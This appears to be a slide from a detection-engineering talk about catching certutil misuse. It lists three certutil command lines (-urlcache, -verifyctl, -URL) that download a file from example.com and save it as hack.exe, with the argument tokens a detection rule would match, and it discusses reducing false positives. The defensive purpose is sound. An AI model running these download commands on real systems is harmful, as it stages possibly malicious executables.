

# Final invariant analysis
certutil –urlcache –f https://example.com/file.123 hack.exe
Certuril, -urlcache, -f,
certutil –verifyctl –f https://example.com/file.123 hack.exe
Certutil, -verifyctl, -f
certutil –URL https://example.com/file.123 hack.exe
Certutil, -url
If this isn’t enough, we can analyse the false positives we’re still seeing to see if we can identify any patterns and systematically eliminate the benign noise.
If that isn’t successful, we can start to add additional requirements, starting with what introduces the least risk of missing something. But hopefully, the number of results is at least manageable.